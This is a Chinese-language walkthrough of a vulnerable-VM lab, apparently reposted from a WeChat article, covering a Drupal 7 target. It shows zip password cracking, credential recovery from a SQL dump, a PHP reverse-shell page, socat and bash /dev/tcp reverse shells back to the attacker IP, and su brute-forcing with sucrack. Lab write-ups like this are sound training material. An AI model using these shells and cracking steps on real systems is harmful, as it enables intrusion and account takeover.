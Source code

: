 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6SNpF-fxEIncD1Hk70Zvcw)

使用 netdiscover 针对局域网中主机进行扫描存活

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4ltZo1O6DxNt58M6x3EEfZwLg9diaFpgWqTV7qKUBsqEmqwOZGrJoAaKQ/640?wx_fmt=png)

这里 Kali 攻击机器是 192.168.0.106

目标靶机位 192.168.0.105

常规的信息收集

端口

存在默认 http 端口 使用 apache 2.4.25 使用 debian 系统

此中间件版本存在解析漏洞，之后可以用在文件上传上面

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lm0Z7OQoMibUlYfOZepq844b1pKdBatic2qTQ5UbY7cWagiaUcRnc2otfg/640?wx_fmt=png)

目录

Backup 中获得加密的 zip 文件

Drupal CMS 存在许多漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l0DuWALphgvX4PhgRK6eyV5TI53qPBnjY8vIHdRISJrC2DvBtEK01IQ/640?wx_fmt=png)

CMS 漏洞扫描

https://www.ddosi.com/cms-scan/  推荐的扫描器集合

目前已经确认网站使用 durpal 框架

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lEPgO2t0EEPy1icOomdPTicKPJ6HO1glH47BOHialudZt6c33ST4ibCbPrg/640?wx_fmt=png)

获取更多的暴露面

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4libMI1zViaNeYdial6feHPz4Mx5odFHibwrDJJtzS6E4Hl9YAwmGcxUvLCQ/640?wx_fmt=png)

目前已经拿到 backup 加密压缩文件以及登录页面

Durpal 7 版本

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4libJDR2micwkck3BLjcicH6dGlSX3YibgicLEDBOBlXeDj8D3QDRa18iaQWIA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lCMjlSc3oamex8iao94SdKefwT7Ml0bZspdnaos4dboGtSPfyhfhz9QQ/640?wx_fmt=png)

先查看文件是 zip 文件但是存在密码

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lvOhoFfnS73sWUKGQXOUoLYpuJ9R22PprNb7PiaPWjptQbt8RjJiaaXRQ/640?wx_fmt=png)

使用 zip2john 获取 hash 值

在使用 john 进行爆破 hash

卒

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4leNN5D9aQ9VqKkVgKJ7jqhI9kDFjH6ibPzQXhOziaMDMuKe2LWgIjDs4A/640?wx_fmt=png)

换 fcrackzip

密码为 thebackup

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l5DDepPoIEEMVGhQsGzjxQHDKSZG6Z3Ht0PYw1hnaTibeJZMtFibL0IDg/640?wx_fmt=png)

Unzip 解压查看压缩包内容

使用 cat 命令查看 dump.sql 也就是压缩包的文件内容

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4ln7icPDaexpBls6BvtnFFTpqMXz7PqiakuypAgjXGpyHjPlIGMibfzKExw/640?wx_fmt=png)

上 somd5 查看

root:drupal

webman:moranguita

将获得账户密码登录 drupal 管理页面

使用 webman 用户登录成功

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lIDLKp4EW4x55kL7wJmecGCe2FPwIL1boNfgtqJKkRiaVnnYY70B5o1g/640?wx_fmt=png)

进入后台之后要获取 shell

1、知道框架为 drupal 7 可以使用已知的漏洞来打下

2、寻找上传点

3、查看是否存在系统工具存在 RCE

4、发布网页直接使用 php 反弹 shell

5、也可以文件包含我们写好的小马网页

此处我们可以直接发布一个网页，插入 php 反弹 shell, 当我们发布的时候使用 nc 进行本地监听端口即可。

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lX5xMdTs8qDVWxLdu9lBfibTvjpqZ80A896vQx8ZJEVFekMM1FUA9rJA/640?wx_fmt=png)

从上图可以看到，我们没有安装 php 的插件，是不会进行解析的，我们需要到插件中安装

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l0LAibTbaiaXbLnlNW0grRZdzVuEURGlHuZz9u9wl2TVIKMusEdib7ru8g/640?wx_fmt=png)

最后要保存配置

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l8V1pG5WEOJyPHO332XhjFyZeBicEP0HRZmSPZDiaEmUeUfDlABfwZS5g/640?wx_fmt=png)

修改反弹 ip 以及监听端口

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lTkQ3f8E6MSycmK0sOEs5mYSpPQTrTEoHV0uQcdlgqKm3ntibc2FAdZg/640?wx_fmt=png)

使用 nc 在本地进行监听

 Nc –nvlp 5050

监听后发布文章

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4llvetib8YMTghlVrhAtMMpOMxJavfia00DWFhkbCIlVjUazw8M6fUy0uQ/640?wx_fmt=png)

获取 www-data 权限

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lF1tGb9sl4Sr5VtqEeViajg3M8TibtDZoGb8ntGd9C5gq8iarMtMuGgIHA/640?wx_fmt=png)

进行本地提权

本地提权的前提也是需要信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lQkAX5EBJIqmLNx9Geb06D4z53LzichOc060gwkEibQCfguLMxu9V0G5g/640?wx_fmt=png)

他没有安装 python2

我们使用 socat 工具反弹一个 shell

Socat 安装链接

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lJwQqFQj5bYcwaiaVBJXc9QdoXLwicTdHJvOfO937IDhtf5XxnCjdhyKg/640?wx_fmt=png)

上图，在 kali 中使用 python 开启 simplehttpsever 服务

靶机使用 wget 命令获取 socat 工具

在 Kali 中设置 socat 监听

```
socat file:`tty`,raw,echo=0 tcp-listen:5051
```

靶机中执行  

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.106:5051
```

```
Nc –nvlp 5051
```

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lYQ9TNSuysGsdHnCcn5oiaSM3RKk6sZRPCKJAnDQibS3lyZZ5JWXibibiaDA/640?wx_fmt=png)

以上相同可以使用 nc 作为监听

```
bash -c 'bash >&/dev/tcp/192.168.0.106/5051 0>&1'
```

靶机中也可以使用 bash 反弹

```
bash -c 'bash >&/dev/tcp/192.168.0.106/5051 0>&1'
```

获取一个新的 tty 之后

本地提权的信息收集：

在 home/user 下找到提示

Rockyou 的前 300 条是 root 用户的密码

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lzHiaVJuGMQPKCTlkveic7rXOhzkFIpy5ibI5XmhTcaZ3sUMRz7LFrpLew/640?wx_fmt=png)

在 kali 中使用 head 命令

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l0aDpJOwcl215e6dfMybykkE7cJI6KVcoE1TQMMvCFPt5Qnj5hmZl0w/640?wx_fmt=png)

上图完成前 300 条的字典

使用 sucrack 工具进行本地密码的爆破

找到 kali 系统 sucrack 工具存放的位置：

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l18UXqzFzQr6WvTJv4wo9L1dQIlrh5OzhEwCbLosuT6icNEGzTjqtsdg/640?wx_fmt=png)

将 sucrack 工具和 1.txt 字典一共传到靶机 /tmp 文件夹下

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4lYLE9EOkFElY9NXzFXdpDPIicEvppGQfZNZQErFNh2oEAibtNpdhycazw/640?wx_fmt=png)

使用 sucrack 工具进行爆破

![](https://mmbiz.qpic.cn/mmbiz_png/vxZrt4kAItmqdtictkFgmc5d8W5JJPt4l9nNpHBCeyoqibFtyc1dwickQBgz9fSBN0uFdbHxrPsPaicm6Gc7n0EtPw/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_jpg/vxZrt4kAItnZe81OLsXwqBQ5Xic67mHDUV7COGpn5ibCUbjVDSkRABAref90Oax1MZyic05uz7LdhCG2oib26A5LeQ/640?wx_fmt=jpeg)
